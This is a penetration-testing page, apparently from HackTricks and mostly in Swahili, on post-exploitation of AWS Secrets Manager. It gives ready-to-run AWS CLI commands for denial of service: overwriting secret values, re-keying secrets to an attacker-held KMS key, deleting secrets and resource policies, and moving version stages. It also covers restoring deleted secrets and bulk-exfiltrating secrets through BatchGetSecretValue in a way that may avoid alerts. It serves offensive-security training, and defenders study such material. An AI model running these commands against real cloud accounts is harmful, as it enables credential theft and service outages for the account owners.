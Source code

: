 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Soma Siri

The **Siri zenyewe ni taarifa nyeti**, [angalia ukurasa wa privesc](../aws-privilege-escalation/aws-secrets-manager-privesc.md) ili ujifunze jinsi ya kuzisoma.

### DoS Badilisha Thamani ya Siri

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Kumbuka kuwa thamani za awali pia zinahifadhiwa, hivyo ni rahisi tu kurudi kwenye thamani ya awali.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Ikiwa attacker ana ruhusa secretsmanager:UpdateSecret, wanaweza kusanidi secret itumie KMS key inayomilikiwa na attacker. KMS key hiyo awali imewekwa kwa namna kwamba mtu yeyote anaweza kuipata na kuitumia, hivyo kusasisha secret kwa key mpya kunawezekana. Ikiwa key haikutambulika/haikutumika, secret haiwezi kusasishwa.

Baada ya kubadilisha key ya secret, attacker hubadilisha usanidi wa key yao ili ni wao pekee waweze kuifikia. Kwa njia hiyo, katika matoleo yanayofuata ya secret, itafungwa kwa key mpya, na kwa kuwa hakuna ufikiaji wa key hiyo, uwezo wa kupata secret utapotea.

Ni muhimu kutambua kuwa ukosefu huu wa ufikaji utaonekana tu katika matoleo ya baadaye, baada ya yaliyomo kwenye secret kubadilika, kwani toleo la sasa bado limefungwa kwa KMS key ya awali.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Idadi ndogo kabisa ya siku za kufuta secret ni 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Inawezekana kurejesha secret, jambo linaloruhusu urejeshaji wa siri ambazo zimepangwa kufutwa, kwa sababu kipindi cha chini cha kufutwa kwa siri ni siku 7 na kipindi cha juu ni siku 30. Pamoja na ruhusa secretsmanager:GetSecretValue, hili linafanya iwezekane kupata yaliyomo yao.

Ili kurejesha siri ambayo iko mchakato wa kufutwa, unaweza kutumia amri ifuatayo:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Kitendo hiki kinaruhusu kufuta resource policy inayodhibiti nani anaweza kupata secret. Hii inaweza kusababisha DoS ikiwa resource policy ilikuwa imewekwa ili kuruhusu ufikiaji kwa kundi maalum la watumiaji.

Ili kufuta resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Hali za secret zinatumika kusimamia matoleo ya secret. AWSCURRENT inaashiria toleo linalotumika na programu, AWSPREVIOUS huhifadhi toleo la awali ili uweze kurudi nyuma ikiwa ni lazima, na AWSPENDING inatumiwa katika mchakato wa mzunguko kutayarisha na kuthibitisha toleo jipya kabla ya kulifanya kuwa la sasa.

Programu daima husoma toleo lenye lebo AWSCURRENT. Ikiwa mtu atahamisha lebo hiyo kwa toleo lisilo sahihi, programu zitaitumia kredenshali batili na zinaweza kushindwa.

AWSPREVIOUS haitumiki kiotomatiki. Hata hivyo, ikiwa AWSCURRENT itaondolewa au itapangwa tena kwa njia isiyofaa, kunaweza kuonekana kuwa kila kitu bado kinaendelea kwa toleo la awali.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Tumia kwa mbaya Secrets Manager BatchGetSecretValue API ili kupata hadi siri 20 kwa ombi moja. Hii inaweza kupunguza kwa kiasi kikubwa idadi ya API-call ikilinganishwa na kurudia GetSecretValue kwa kila siri. Kama filters zinatumika (tags/name), ruhusa ya ListSecrets pia inahitajika. CloudTrail bado inarekodi tukio la GetSecretValue moja kwa kila siri inayopatikana kwenye batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue kwa kila siri lengwa
- secretsmanager:ListSecrets ikiwa unatumia --filters
- kms:Decrypt kwenye CMKs zinazotumika na siri (ikiwa huna kutumia aws/secretsmanager)

> [!WARNING]
> Kumbuka kwamba ruhusa `secretsmanager:BatchGetSecretValue` haitoshi peke yake ili kupata siri; pia unahitaji `secretsmanager:GetSecretValue` kwa kila siri unayotaka kupata.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate kwa vichujio (funguo/thamani ya tag au kiambatisho cha jina)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Kushughulikia kushindwa kwa sehemu
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Athari
- Haraka “smash-and-grab” ya siri nyingi kwa API calls chache, ikiwezekana ikiepuka onyo zilizowekwa kugundua mwinuko wa GetSecretValue.
- CloudTrail logs bado zinajumuisha tukio moja la GetSecretValue kwa kila siri iliyopatikana na batch.
